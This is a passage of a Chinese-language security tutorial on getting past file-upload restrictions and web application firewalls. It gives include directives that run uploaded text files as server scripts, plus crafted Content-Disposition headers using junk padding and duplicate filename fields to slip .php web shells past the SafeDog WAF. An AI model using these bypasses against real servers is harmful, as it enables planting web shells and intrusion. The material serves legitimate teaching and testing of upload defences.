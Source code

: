 ```
#PHP    
<?php Include("上传的txt文件路径");?> 
#ASP    
<!--#include file="上传的txt文件路径" -->
#JSP    
<jsp:inclde page="上传的txt文件路径"/>
or  
<%@include file="上传的txt文件路径"%>
```

## CMS、编辑器漏洞
1. CMS漏洞：比如说JCMS等存在的漏洞，可以针对不同CMS存在的上传漏洞进行绕过。
2. 编辑器漏洞：比如FCK，ewebeditor等，可以针对编辑器的漏洞进行绕过。
这两方面的漏洞以后单独成文汇总，这里点到为止。


## WAF绕过
### 垃圾数据
#### 内容中插入干扰字符
* 前提: 有些主机WAF软件为了不影响web服务器的性能，会对校验的用户数据设置大小上限，比如1M。
* 目标: 绕过WAF**对文件内容的校验**
* 方法: 此种情况可以构造一个大文件，前面1M的内容为垃圾内容，后面才是真正的木马内容

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/20190309221310.png)


#### 字段中插入干扰字符
* 前提: 网站具有任意文件上传漏洞，但是安全狗**拦截危险的脚本文件后缀**，比如`php、asp、aspx`等
* 目标: 绕过安全狗对脚本文件后缀的校验
* 方法: 可以在`Content-Disposition`字段和`filename`字段之间插入任意**大于或者等于**`508`个长度的字符，再配合**特殊文件名**（文件名中间需要有`分号`或者`单引号`），

```
Content-Disposition:form-data;name="file";_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_jnxcc.top_mwww.cnzxsoft.co_......;Filename="tea;sd.cer"
```

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/20190309221257.png)

### filename
#### 多个`filename`
* 针对早期版本安全狗，可以多加一个filename
* 最终上传成功的文件名是`xx.php`。但是由于解析文件名时，会解析到第一个`xx.txt`。正则默认都会匹配到第一个。

```
Content-Disposition: form-data; name="file_x"; filename="xx.txt"; filename="xx.php"
```
